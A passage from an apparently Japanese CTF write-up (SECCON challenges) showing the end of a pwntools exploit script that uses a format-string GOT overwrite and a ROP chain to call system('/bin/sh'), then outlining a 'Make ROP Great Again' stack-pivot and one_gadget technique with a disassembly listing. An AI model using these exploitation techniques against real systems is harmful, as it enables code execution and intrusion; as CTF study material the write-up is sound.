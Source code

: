 ```python
        libc_printf = addr_libc + off_printf
        libc_scanf  = addr_libc + off_scanf

        print("[+] addr_libc = "+hex(addr_libc))
        if (libc_printf & 0xff0000) != (libc_scanf & 0xff0000):
                print("[-] fail")
                exit(1)

        payload = b''
        lower_2 = libc_scanf&0xffff
        payload += f'%{lower_2}c%8$hn'.encode()
        payload += b'x'*(16-len(payload))
        payload += p64(got_printf)[:-1]
        conn.recvuntil(".\n")
        conn.send(payload)

        fmt = b" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted "
        fmt += b'x'*0x28
        fmt += p64(addr_libc+off_rdi_ret+1)
        fmt += p64(addr_libc+off_rdi_ret)
        fmt += p64(addr_libc+off_binsh)
        fmt += p64(addr_libc+off_system)
        fmt += b" warmly.\n\x00"
        conn.recvuntil("(@@")
        conn.send(fmt)

        conn.interactive()

if __name__ == "__main__":
        exploit()

```

### Make ROP Great Again
getsがあるので自明なBOF、ROPを組みたいが単純なgadgetがないのでどうにかする問題。

頑張ってどうにかできたので以下ざっくりとした流れ。
* bssの固定アドレス領域にstack pivot(stackアドレスが既知だと色々やりやすくなるので)
* _startからmain関数を実行すると_IO_file_underflow+357(`pop rbx; ...; ret;`が存在するいい感じのgadget)のアドレスがstackに残る
* `add dword[rbp-0x3d]; ebx; ret;`のgadgetを使い、これまたstack上に落ちている_libc_start_main+139に加算を行うことでstack上にone_gadgetのアドレスを用意する。
* 用意したone_gadgetにretする

```
=> 0x7ffff7e3d795 <_IO_file_underflow+357>:     test   rax,rax
   0x7ffff7e3d798 <_IO_file_underflow+360>:     jle    0x7ffff7e3d7e8 <_IO_file_underflow+440>
   0x7ffff7e3d79a <_IO_file_underflow+362>:     mov    rdx,QWORD PTR [rbx+0x90]
   0x7ffff7e3d7a1 <_IO_file_underflow+369>:     add    QWORD PTR [rbx+0x10],rax
   0x7ffff7e3d7a5 <_IO_file_underflow+373>:     cmp    rdx,0xffffffffffffffff
   0x7ffff7e3d7a9 <_IO_file_underflow+377>:     je     0x7ffff7e3d7b5 <_IO_file_underflow+389>
   0x7ffff7e3d7ab <_IO_file_underflow+379>:     add    rdx,rax
   0x7ffff7e3d7ae <_IO_file_underflow+382>:     mov    QWORD PTR [rbx+0x90],rdx
   0x7ffff7e3d7b5 <_IO_file_underflow+389>:     mov    rax,QWORD PTR [rbx+0x8]
   0x7ffff7e3d7b9 <_IO_file_underflow+393>:     movzx  eax,BYTE PTR [rax]
   0x7ffff7e3d7bc <_IO_file_underflow+396>:     add    rsp,0x8
   0x7ffff7e3d7c0 <_IO_file_underflow+400>:     pop    rbx
   0x7ffff7e3d7c1 <_IO_file_underflow+401>:     pop    r12
   0x7ffff7e3d7c3 <_IO_file_underflow+403>:     pop    r13
   0x7ffff7e3d7c5 <_IO_file_underflow+405>:     pop    r14
   0x7ffff7e3d7c7 <_IO_file_underflow+407>:     pop    r15
   0x7ffff7e3d7c9 <_IO_file_underflow+409>:     pop    rbp
   0x7ffff7e3d7ca <_IO_file_underflow+410>:     ret 
```
